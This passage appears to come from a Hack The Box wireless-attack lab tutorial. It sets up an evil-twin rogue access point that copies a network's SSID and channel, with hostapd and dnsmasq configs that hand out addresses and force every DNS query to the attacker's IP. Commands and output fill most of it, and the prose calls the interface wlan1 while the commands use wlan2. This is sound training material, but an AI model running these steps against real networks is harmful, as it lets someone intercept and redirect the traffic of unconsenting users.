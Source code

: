 <p>Next, we set up a rogue access point configured as an open network to attract disconnected clients. This rogue AP will mimic the legitimate AP's SSID and  channel to appear authentic. To begin, we create an <code>open.conf</code> file with the following contents:</p>
<pre><code class="language-configuration">interface=wlan2
hw_mode=g
ssid=HTB-Corp
channel=1
driver=nl80211
</code></pre>
<p>This configuration ensures that the rogue AP is broadcasting the same SSID on the same channel as an open network.</p>
<p>Next, we create a configuration file for the DNS server to manage IP assignments and DNS resolution for clients connecting to the rogue access point. For this, we create an <code>dns.conf</code> file with the following contents:</p>
<pre><code class="language-configuration">interface=wlan2
dhcp-range=192.168.0.2,192.168.0.254,255.255.255.0,10h
dhcp-option=3,192.168.0.1
dhcp-option=6,192.168.0.1
server=8.8.4.4
server=8.8.8.8
listen-address=127.0.0.1
address=/#/192.168.0.1
log-dhcp
log-queries
</code></pre>
<p>In the above config file, the <code>dhcp-range</code> defines the range of IPs to be assigned to clients, <code>dhcp-option</code> sets the default gateway (option 3) and DNS server (option 6), <code>server</code> points to the DNS servers (Google DNS in this case) and <code>address</code> forces all domain queries to redirect to the rogue IP address (192.168.0.1). This configuration will ensure clients that connect to the rogue AP are given IPs in the defined range and are redirected to the attacker's DNS server.</p>
<p>To start the DNS server with our configuration, we first stop any running dnsmasq service to avoid conflicts by using the command shown below:</p>
<pre><code class="language-shell-session">[!bash!]$ service dnsmasq stop
</code></pre>
<p>Next, we execute the DNS configuration file and start the DNS server on port 53 using:</p>
<pre><code class="language-shell-session">[!bash!]$ sudo dnsmasq -C dns.conf -d

dnsmasq: started, version 2.90 cachesize 150
dnsmasq: compile time options: IPv6 GNU-getopt DBus no-UBus i18n IDN2 DHCP DHCPv6 no-Lua TFTP conntrack ipset no-nftset auth cryptohash DNSSEC loop-detect inotify dumpfile
dnsmasq-dhcp: DHCP, IP range 192.168.0.2 -- 192.168.0.254, lease time 10h
dnsmasq: using nameserver 8.8.4.4#53
dnsmasq: using nameserver 8.8.8.8#53
dnsmasq: reading /etc/resolv.conf
dnsmasq: using nameserver 8.8.4.4#53
dnsmasq: using nameserver 8.8.8.8#53
dnsmasq: using nameserver 1.1.1.1#53
dnsmasq: read /etc/hosts - 7 names
</code></pre>
<p>This will initiate the rogue DNS server, ensuring that client devices connecting to the fake AP will receive their IP addresses and DNS settings from our attacker-controlled network.</p>
<p>The next step is to configure the valid IP address for the interface that will host the fake access point (<code>wlan1</code>).</p>
<pre><code class="language-shell-session">[!bash!]$ sudo ifconfig wlan2 192.168.0.1/24
[!bash!]$ ifconfig wlan2
wlan2: flags=4099&lt;UP,BROADCAST,MULTICAST&gt;  mtu 1500
        inet 192.168.0.1  netmask 255.255.255.0  broadcast 192.168.0.255
        ether 02:00:00:00:03:00  txqueuelen 1000  (Ethernet)
        RX packets 0  bytes 0 (0.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 0  bytes 0 (0.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
</code></pre>